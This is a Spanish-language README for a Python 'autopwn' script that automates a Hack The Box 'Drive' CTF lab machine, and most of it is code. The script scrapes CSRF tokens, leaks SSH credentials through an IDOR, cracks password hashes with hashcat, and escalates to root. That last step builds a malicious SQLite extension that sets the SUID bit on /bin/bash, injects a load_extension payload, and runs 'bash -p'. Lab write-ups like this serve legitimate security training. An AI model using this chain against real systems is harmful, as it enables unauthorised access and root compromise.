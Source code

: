 # Autopwn - Drive

En caso de no haber realizado la máquina Drive, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Drive) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Drive.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

<p align="center">
	<img src="Img/Autopwn2-Drive.png"
		alt="autopwn2"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script es la creación del usuario, para ello accede a la función **GetCsrfTokenRegister** para conseguir el csrftoken mediante expresiones regulares y luego acceder a la función **register**  para crear dicho usuario, jugando con **session** para que el token no cambie entre solicitudes.

```python
s = requests.session()
```


```python
def GetCsrfTokenRegister():
	r = s.get(register_url)
	return re.findall('name="csrfmiddlewaretoken" value="(.*?)"', r.text)[0]

def register(token, username, email, passw):
	data_post = {
		'csrfmiddlewaretoken': token,
		'username': username,
		'email': email,
		'password1': passw,
		'password2': passw
	}

	r = s.post(register_url, data=data_post)
```

De nuevo se utiliza el **session** para acceder como el usuario creado y utilizando la librería **re** para conseguir las credenciales mediante expresiones regulares.

```python
def login(token, username, password):
	post_data = {
		'csrfmiddlewaretoken': token,
		'username': username,
		'password': password
	}

	r = s.post(login_url, data=post_data)

def GetCredentials():
	r = s.get("http://drive.htb/79/block/")

	username = re.findall('user for (.*?) ',r.text)[0]
	password = re.findall('password &quot;(.*?)&quot;',r.text)[0]

	return username, password
```

Para realizar el **LocalPortForwarding** y poder acceder al Gitea se utiliza la librería **pexpect** para poder ejecutar el comando del ssh y poner la contraseña previamente conseguida.

```python
def LocalPortForwarding(username, password):
	ssh_command = f"ssh {username}@10.10.11.235 -L:3000:127.0.0.1:3000 -fN"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.expect('password:')

	ssh_session.sendline(password)

	ssh_session.interact()
```
Para poder acceder al repositorio se había que autenticar, y también se utilizaba otro csrftoken, es por ello en la función **GetCsrf2Token** se consigue el csrftoken y con la función **login2** se accedía como el usuario, para finalmente utilizar la misma sesión con **session** en la función **GetPasswordZip** para obtener la contraseña necesaria.

```python
def GetCsrf2Token():
	r = requests.get("http://localhost:3000/user/login")
	return re.findall('name="_csrf" value="(.*?)"',r.text)[0]

def login2(csrf, username, password):
	data_post = {
		'_csrf': csrf,
		'user_name': username,
		'password': password
	}

	r = s.post(login_gitea,data=data_post)

def GetPasswordZip():
	r = s.get("http://localhost:3000/crisDisel/DoodleGrive/raw/branch/main/db_backup.sh")

	return re.findall("7z a -p'(.*?)'",r.text)[0]
```
Luego con la contraseña ya obtenida se eliminaba el proceso del comando **ssh**.

```python
subprocess.Popen(["killall","/usr/bin/ssh"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```

Con la contraseña del zip ya obtenida, se accede a la función **DownloadZip** para poder primero, con la librería **paramiko** acceder a la máquina y crear en el directorio **/var/www/backups/** el servicio http y poder luego con **subprocess** ejecutar el comando **wget** y descargar el **.zip** que contiene el hash y descomprimirlo con la contraseña obtenida.

```python
def DownloadZip(username, passZip):
	client = paramiko.SSHClient()

	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.235', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('python3 -m http.server 8080 --directory /var/www/backups')

	time.sleep(2)

	subprocess.Popen(["wget", "http://10.10.11.235:8080/1_Nov_db_backup.sqlite3.7z"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)

	subprocess.Popen(["7z","x","1_*",f"-p{passZip}"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)
```

Después de descomprimir el **.zip** se accede a la función **CrackPass** que contiene el comando del **hashcat** para poder creackear el hash del usuario utilizando el parámetro **-o** que guarda el resultado en el archivo **hash**, para luego abrir el archivo en modo lectura y poder pillar la contraseña del usuario **tom**.

```python
def CrackPass():
	os.system("sqlite3 db.sqlite3 --line 'select * from accounts_customuser' | grep 'password' | awk 'NF{print $NF}' > hashes")

	os.system("hashcat --quiet -a 0 -m 124 hashes /usr/share/wordlists/rockyou.txt -o hash")

	with open('hash', 'r') as file:

		password_2 = file.read()

	return	re.findall(":(.*)",password_2)[0]
```

Finalmente, se accede a la función **Doodle** para primero acceder como el usuario **tom** con su contraseña conseguida en la función **CrackPass** y luego realizar todos los pasos necesarios para la escalada de privilegios.

```python
def Doodle(username,password_2):
	ssh_command = f"ssh {username}@10.10.11.235"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.expect('password:')

	ssh_session.sendline(password_2)

	ssh_session.sendline('export TERM=xterm')

	ssh_session.sendline('echo -e "#include <stdlib.h>\\n void sqlite3_extension_init() {\\n\\tsetuid(0);\\n\\tsetgid(0);\\n\\tsystem(\\"/usr/bin/chmod u+s /bin/bash\\");\\n}" > test.c')

	ssh_session.sendline(' gcc test.c -shared -fPIC -o a')

	ssh_session.sendline('./doodleGrive-cli')

	ssh_session.sendline('moriarty')

	ssh_session.sendline('findMeIfY0uC@nMr.Holmz!')

	ssh_session.sendline('5')

	ssh_session.sendline('"+load_extension(char(46,47,97))+"')

	time.sleep(1)

	ssh_session.sendline('6')

	time.sleep(1)

	ssh_session.sendline('bash -p')

	ssh_session.sendline('clear')

	ssh_session.interact()
```

